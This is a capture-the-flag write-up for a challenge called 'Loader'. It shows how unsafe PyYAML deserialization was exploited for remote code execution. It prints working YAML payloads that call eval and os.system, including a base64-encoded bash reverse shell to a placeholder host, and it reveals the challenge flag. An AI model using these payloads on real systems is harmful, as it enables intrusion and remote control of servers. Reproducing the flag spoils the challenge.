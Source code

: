 # Loader challenge Writeup : 

- Challenge Name : Loader

- Weight : 400 pts



TL;DR : Exploiting a Python De-Serialization leading to an RCE thanks To yaml/PyYaml.



This is the main challenge page "adminer loader" with a data submission form.

 ![gif here](https://raw.githubusercontent.com/TebbaaX/CTFs/main/HackerNewsBdarija-CTF-2022/loadder/loader/loadder_x.gif?token=GHSAT0AAAAAABTT5PBKXFRB2D3HCN5AH6JMYS6DYIA)




as you can see! you simply submit an input text and it get reflected/alerted.



looking under the hood we have this interesting js script that actually posts data on `api/load`, and after posting it! it gets alerted.

 ![gif here](https://raw.githubusercontent.com/TebbaaX/CTFs/main/HackerNewsBdarija-CTF-2022/loadder/loader/magic_behind.PNG?token=GHSAT0AAAAAABTT5PBLQKOWFT3YEZU5CLYGYS6DZBQ)

one more interesting thing is the `btoa()` js function that converts the input string to an base64. confirmed by intercepting the request on burp as shown.
the response also show an interesting server header indicating that this runs on py.

 ![gif here](https://raw.githubusercontent.com/TebbaaX/CTFs/main/HackerNewsBdarija-CTF-2022/loadder/loader/burp_2.PNG?token=GHSAT0AAAAAABTT5PBKYKRVP6QCZJV6PTIIYS6D2OQ)

Challenge hint mentioned a data format used by SOC Team leads and Threat hunters, after some time it was obviously yaml.


> .... (and) YAML is a human-readable data-serialization language. It is commonly used for configuration files and in applications where data is being stored...

spent sometime reading papers and references along with g0rchy ended up with constructing a "checkup payload" to check if we really about to solve this challenge. 



checkup payload looked like this : 

> `!!python/object/new:tuple [!!python/object/new:map [!!python/name:eval , [ '1+1' ]]]`

simple `!!python/object/new:tuple` to initiate a tuple since were running on YAML...,  `map()` to serve both the function and the iterable that will be "mapped" and `eval()` to check the legality of the python statement... and you know 1+1 :) .

![gif here](https://raw.githubusercontent.com/TebbaaX/CTFs/main/HackerNewsBdarija-CTF-2022/loadder/loader/2pic.PNG?token=GHSAT0AAAAAABTT5PBLCZN7BLXBWBDRYV2WYS6D3WQ)

seems like we are in the correct direction!


The second payload we did call python and tried to get at least the built-in python-id trace : 

> `!!python/object/new:tuple [!!python/object/new:map [!!python/name:eval , [ "__import__('os').system('id')" ]]]`

Returned with the `os.system()` encoded exit value 0 that means success! well, that's great.

![gif here](https://raw.githubusercontent.com/TebbaaX/CTFs/main/HackerNewsBdarija-CTF-2022/loadder/loader/0.PNG?token=GHSAT0AAAAAABTT5PBKC4EECREKBIC4SE56YS6D44Q)

The last constructed payload is to get a bash rev shell

according to my teammate g0rchy in APTx1337 who likes keeping the team's work as based as possible we used base64 encoded bash reverse shell, and for the guys who can't handle based-ness you can use escaped quotes bash payloads!

the final payload looks like this : 


> ` !!python/object/new:tuple [!!python/object/new:map [!!python/name:eval , [ "__import__('os').system('echo c2ggLWkgPiYgL2Rldi90Y3AvJExIT1NULyRMUE9SVCAwPiYx|base64 -d|bash')" ]]]`

and...


![gif here](https://raw.githubusercontent.com/TebbaaX/CTFs/main/HackerNewsBdarija-CTF-2022/loadder/loader/sweet.PNG?token=GHSAT0AAAAAABTT5PBLFAR3AI75T44PH4CSYS6D5XQ)












it works! 

> `thnb{py7H0N_P4Ck4935_c4N_83_4_d4n93R}`

References that helped us solving the challenge in references.txt 

GG!
